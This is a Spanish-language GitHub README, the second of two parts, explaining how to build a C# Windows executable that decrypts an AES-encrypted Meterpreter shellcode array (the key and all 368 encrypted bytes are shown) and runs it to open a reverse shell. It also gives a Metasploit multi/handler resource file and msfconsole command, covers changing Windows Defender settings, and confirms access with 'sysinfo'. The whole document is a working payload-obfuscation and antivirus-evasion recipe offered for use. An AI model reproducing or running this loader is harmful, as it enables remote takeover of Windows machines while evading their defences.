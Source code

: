 Desencriptar shell code AES creado anterior mente con el script "Ofuscar-shell-meterpreter-en-AES PARTE 2 DE 2" 

Este es el script que nos permitira desencriptar el shell code ofuscado con el script anterior   !! necesitamos usar visual studio code 2015 - 2022 !!

1. tenemos que abrir un nuevo proyecto de windows form en csharp
2. despues de abirse hay que eliminar el windows form
3. configuracion de propiedades para eso hay que ir al solucion explorer y darle doble click en propiedades, en la parte de Output lo dejamos como Windows Aplication"
4. En la parte del targetFramework escogemos .NET Framework 4.7.2
5. ![imagen](https://github.com/Cristian-M0ntes/Desencriptar-shell-code-AES-/assets/79603479/2653a2e8-655e-484c-bb1b-f2ed96619e06)
6. en el archivo program.cs metemos el codigo de "encriptar shell metasploit to AES.txt"
7. despues cambiamor la parte de
8.             byte[] clave_aleatoria_bytes = Encoding.UTF8.GetBytes("G/!gvkxJF!GJ&wQpG&3H");
9. donde remplazaras lo que esta en comillas por la clave aleatoria antes generada
10. en el renglon de abajo se muesta la linea donde necesitamos "cambiar" el shell anterior mente encriptado con el script 1 de 2 por el que guardamos anterior mente teniendo como resultado 368 bytes 
12.     byte[] shellcode_metasploit_aes = new byte[368] { 0xda, 0xe1, 0x9f, 0x6b, 0x10, 0xa7, 0x69, 0x3d, 0xe5, 0x33, 0xf5, 0xed, 0x5c, 0x0a, 0x9a, 0x13, 0x04, 0xa2, 0xea, 0xd1, 0x28, 0xf0, 0xc3, 0xda, 0x3b, 0x3c, 0x80, 0x61, 0xc8, 0x52, 0xd8, 0xaa, 0x4c, 0x3e, 0xd5, 0xef, 0xd0, 0xa3, 0x53, 0x21, 0x74, 0xfc, 0xa3, 0x21, 0x90, 0x2c, 0x46, 0xdd, 0xed, 0x1d, 0x50, 0xf6, 0x7b, 0x4e, 0xb6, 0x87, 0x50, 0x5a, 0x40, 0x9b, 0xcb, 0x72, 0x21, 0x22, 0xee, 0x68, 0xd6, 0x64, 0xf8, 0x4f, 0xe2, 0xed, 0x97, 0x53, 0x9f, 0x72, 0x48, 0x1e, 0x8d, 0x38, 0xbc, 0x05, 0x6b, 0x63, 0x7c, 0x85, 0x26, 0x3b, 0x43, 0x4e, 0x24, 0x70, 0xb9, 0x13, 0xac, 0x9d, 0x18, 0x5d, 0xf6, 0x3e, 0x6a, 0xf5, 0x5e, 0xbd, 0x8e, 0x55, 0xc6, 0x4c, 0x45, 0x7b, 0x4d, 0x32, 0xc5, 0x56, 0x31, 0x81, 0xeb, 0x96, 0xfd, 0x4a, 0x49, 0xfa, 0xd2, 0x0c, 0x56, 0x1b, 0xf2, 0xe1, 0x44, 0xce, 0x5a, 0xdc, 0x36, 0x17, 0xf5, 0x87, 0x52, 0x4e, 0xe9, 0xf1, 0x09, 0x28, 0x90, 0xe2, 0x5f, 0x2f, 0x66, 0x64, 0x36, 0x4e, 0x60, 0x36, 0x84, 0x90, 0x45, 0x95, 0x23, 0xe6, 0x4e, 0xf4, 0xf1, 0xd9, 0x90, 0x2b, 0x8e, 0x91, 0xe1, 0x24, 0x2b, 0xc8, 0xdd, 0xc0, 0xf6, 0x4c, 0x95, 0x61, 0xa3, 0xeb, 0x37, 0x75, 0xed, 0x17, 0x44, 0xa2, 0x06, 0xbd, 0x9a, 0x16, 0x0f, 0xfc, 0x9a, 0x57, 0xe2, 0xbe, 0xd2, 0x82, 0xec, 0x8c, 0x79, 0x32, 0x72, 0xd0, 0x3a, 0x68, 0x9f, 0x35, 0xa8, 0x85, 0x6b, 0x3c, 0xd9, 0x37, 0x98, 0xbd, 0xfd, 0xdc, 0x55, 0xa4, 0x4b, 0xd8, 0xf2, 0x59, 0x9c, 0x7d, 0xec, 0xf2, 0x35, 0xbe, 0xb3, 0xaa, 0x7f, 0x9a, 0x86, 0xf6, 0x7a, 0x42, 0xcf, 0xb2, 0xaa, 0xc3, 0x58, 0xa1, 0xb2, 0x0a, 0x57, 0xd2, 0x75, 0x7b, 0x2f, 0x1d, 0x71, 0x7c, 0xf1, 0x63, 0x24, 0x64, 0x6f, 0x38, 0x3c, 0x37, 0x93, 0xda, 0x7e, 0x74, 0x7c, 0x59, 0x04, 0xe1, 0x9c, 0x99, 0xb6, 0x2f, 0xe8, 0x52, 0xc9, 0x91, 0x34, 0x30, 0xaa, 0xa9, 0x71, 0xcf, 0xe5, 0xcf, 0x21, 0xc5, 0x17, 0x4d, 0xfb, 0x6e, 0x89, 0xe5, 0x88, 0x09, 0xe4, 0x50, 0x2e, 0x4c, 0x50, 0x32, 0x85, 0x7a, 0x77, 0x74, 0xd3, 0xfb, 0x86, 0xa9, 0x75, 0x50, 0xf7, 0x80, 0xb8, 0xca, 0x69, 0x5a, 0xe8, 0xed, 0xb5, 0xec, 0x5a, 0x53, 0x57, 0xf7, 0xde, 0xa8, 0xe6, 0xbf, 0x41, 0xbb, 0x46, 0x5f, 0x07, 0x07, 0x54, 0x4c, 0xbd, 0xb5, 0x86, 0xd2, 0x9e, 0x9f, 0x9c, 0x7d, 0x52, 0x5a, 0x09, 0x87, 0xa2, 0x9f, 0x2e, 0xcb, 0x6d, 0xdd, 0xd3, 0xf0, 0xb0, 0x24, 0xfe, 0x19, 0x61, 0x89, 0x29, 0x76, 0x42, 0xee, 0xfa, 0x81 };
13. despues de haber cambiado los parametros anteriores con los nuevos valores necesitamos ir al solucion explorer
14. donde escogeremos add new class como se muestra en la imagen de abajo 
14.![imagen](https://github.com/Cristian-M0ntes/Desencriptar-shell-code-AES-/assets/79603479/20aa8cc3-6a99-4fab-b8d4-f55af023ff9d)
15. al momento de crear la nueva clase necesitamos llamarla como " librerias_carga_memoria " ya que este es el nombre de la variable que se encuentra en el script program.cs
16. meteremos el codigo del archivo " Desencriptar shell code AES clase nueva.txt " viendose como en la imagen de abajo 

11. ![imagen](https://github.com/Cristian-M0ntes/Desencriptar-shell-code-AES-/assets/79603479/b0dd7806-a5dd-4a42-b851-3a06956d17f6)
12. teniendo todo esto configurado necesitamos crear un listening de metasploit para recoger la comunicacion usando el siguiente codigo
13. en linux creas un archivo llamado handler.rc escribiendo los siguientes comandos

        use multi/handler
        set payload windows/meterpreter/reverse_tcp
        set lhost <TU IP >
        set lport 4444
        set ExitOnSession false
        exploit -j

14. luego ejecutaremos ese archivo llamado handler.rc con el siguiente comando
15.     sudo msfconsole -r handler.rc
16. una vez echo esto hay que ir a windows donde configuraras el windows defender de la siguiente manera 
17. ![imagen](https://github.com/Cristian-M0ntes/Desencriptar-shell-code-AES-/assets/79603479/072075e9-8a23-43b7-8f56-dbbe1519855c)
18. ![imagen](https://github.com/Cristian-M0ntes/Desencriptar-shell-code-AES-/assets/79603479/396e8ba0-1ebe-4250-8b11-4b3ddc7928ee)
19. en este paso solo queda contruir "build" el script esto creara un .exe que ejecutaremos para conseguir la conexion reversa hacia nuestro linux que previamente configuramos
20. si al ejecutar el .exe siguiendo estos pasos se abre una shell de meterpreter entonces estaremos dentro de windows desde linux, para verificar esto usamos
21.     sysinfo 
22. con esto podremos haber comprobado que el que estamos dentro de windows y podremos ejecutar comandos  por lo que la meta se habra cumplido 



